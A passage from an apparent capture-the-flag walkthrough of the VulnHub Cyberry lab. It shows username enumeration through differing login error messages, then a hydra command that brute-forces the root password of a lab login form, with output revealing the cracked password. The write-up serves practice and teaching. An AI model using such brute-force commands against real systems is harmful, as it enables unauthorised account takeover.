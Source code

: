 _If the user does not exist_

![non-exist.png](/assets/images/posts/cyberry-walkthrough/cyberry-5.png)

_If the user exists and the password is invalid_

![exist.png](/assets/images/posts/cyberry-walkthrough/cyberry-6.png)

With this in mind, I was able to perform online password cracking with `hydra`.

```
# hydra -l root -P /usr/share/wordlists/rockyou.txt -f -e sr 192.168.198.128 http-post-form "/login.php:username=^USER^&password=^PASS^:not valid"
[80][http-post-form] host: 192.168.198.128 login: root password: password
```


[1]: https://www.vulnhub.com/entry/cyberry-1,217/
[2]: https://twitter.com/@cyberrysec
[3]: https://www.vulnhub.com
[4]: https://en.wikipedia.org/wiki/Brainfuck
[5]: https://copy.sh/brainfuck/